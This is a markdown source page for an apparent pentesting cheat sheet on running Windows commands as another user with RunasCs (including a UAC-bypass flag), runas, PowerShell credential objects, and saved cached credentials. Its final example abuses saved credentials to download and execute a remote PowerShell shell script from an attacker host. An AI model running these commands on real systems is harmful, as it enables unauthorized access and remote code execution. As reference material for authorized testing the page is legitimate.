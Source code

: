 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["Powershell", "Credential Object", "Windows", "Runas", "UAC"]
---
```


### RunasCS

```console
.\RunasCs.exe '<USER>' '<PASSWORD>' "<CMD>" -l <LOGON_TYPE>
```

```console
# Or
.\RunasCs.exe '<USER>' '<PASSWORD>' --bypass-uac "<CMD>" -l <LOGON_TYPE>
```

<br>

```
LOGON TYPE
---------------------
2  Interactive
3  Network
4  Batch
5  Service
7  Unlock
8  NetworkCleartext
9  NewCredentials
10 RemoteInteractive
11 CachedInteractive
```

<small>*Ref: [RunasCS](https://github.com/antonioCoco/RunasCs)*</small>

### Runas (With Password)

```console
runas /user:'<USER>' "<CMD>"
```

```console {class="sample-code"}
runas /user:'admin' "powershell"
```

### Runas (With Cred Object)

#### 1. Create Credential Object

{{< tab set1 tab1 >}}Method 1{{< /tab >}}
{{< tab set1 tab2 >}}Method 2{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = '<PASSWORD>'
```

```console
$secstr = New-Object -TypeName System.Security.SecureString
```

```console
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

{{< /tabcontent >}}

#### 2. Run Command

{{< tab set2 tab1 >}}Invoke-Command{{< /tab >}}
{{< tab set2 tab2 >}}PSSession{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Set Computer to 'localhost' if Running Locally
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME>
```

```console {class="sample-code"}
Invoke-Command -ScriptBlock { powershell } -Credential $cred -Computer localhost
```

```console
# If Error, Try
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -auth credssp
```

```console
# Invoke Command with Config
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -ConfigurationName <CONFIG_NAME>
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
# Set Computer to '.' if Running Locally
new-pssession -computername <COMPUTER_NAME> -credential $cred
```

```console {class="sample-code"}
new-pssession -computername . -credential $cred
```

```console
# Switch to New Session
enter-pssession <SESSION_ID>
```

{{< /tabcontent >}}

### Runas (With Cached Creds)

#### 1. Check Cached Creds

```console
cmdkey /list
```

#### 2. Run Command

```console
runas /user:<DOMAIN>\<USER> /savecred "<CMD>"
```

```console {class="sample-code"}
# e.g. Upload and Run a Shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://<LOCAL_IP>/shell.ps1')"
```
